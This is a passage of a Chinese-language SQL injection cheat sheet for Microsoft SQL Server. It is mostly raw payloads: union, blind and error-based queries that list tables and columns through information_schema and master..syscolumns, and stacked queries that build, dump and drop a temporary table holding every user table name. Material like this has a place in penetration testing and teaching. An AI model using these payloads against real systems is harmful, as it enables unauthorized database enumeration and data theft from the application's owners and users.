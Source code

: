```
AND 1 = (SELECT TOP 1 table_name FROM information_schema.tables)
AND 1 = (SELECT TOP 1 table_name FROM information_schema.tables WHERE table_name NOT IN(SELECT TOP 1 table_name FROM information_schema.tables))

```

### 检索列

我们可以从两个不同的数据库，`information_schema.columns`或`masters..syscolumns`中检索列。

### 联合查询:

```
UNION SELECT name FROM master..syscolumns WHERE id = (SELECT id FROM master..syscolumns WHERE name = 'tablename')

```

### 盲注类型:

```
AND SELECT SUBSTRING(column_name,1,1) FROM information_schema.columns > 'A'

```

### 报错类型:

```
AND 1 = (SELECT TOP 1 column_name FROM information_schema.columns)
AND 1 = (SELECT TOP 1 column_name FROM information_schema.columns WHERE column_name NOT IN(SELECT TOP 1 column_name FROM information_schema.columns))

```

### 一次性检索多个表

下面的3个查询将创建一个临时表/列 并插入所有用户定义的表，然后把表的内容进行转储并删除

创建临时表/列和插入数据：

```
AND 1=0; BEGIN DECLARE @xy varchar(8000) SET @xy=':' SELECT @xy=@xy+' '+name FROM sysobjects WHERE xtype='U' AND name>@xy SELECT @xy AS xy INTO TMP_DB END;

```

转储内容：

```
AND 1=(SELECT TOP 1 SUBSTRING(xy,1,353) FROM TMP_DB);

```

删除表：

```
AND 1=0; DROP TABLE TMP_DB;

```
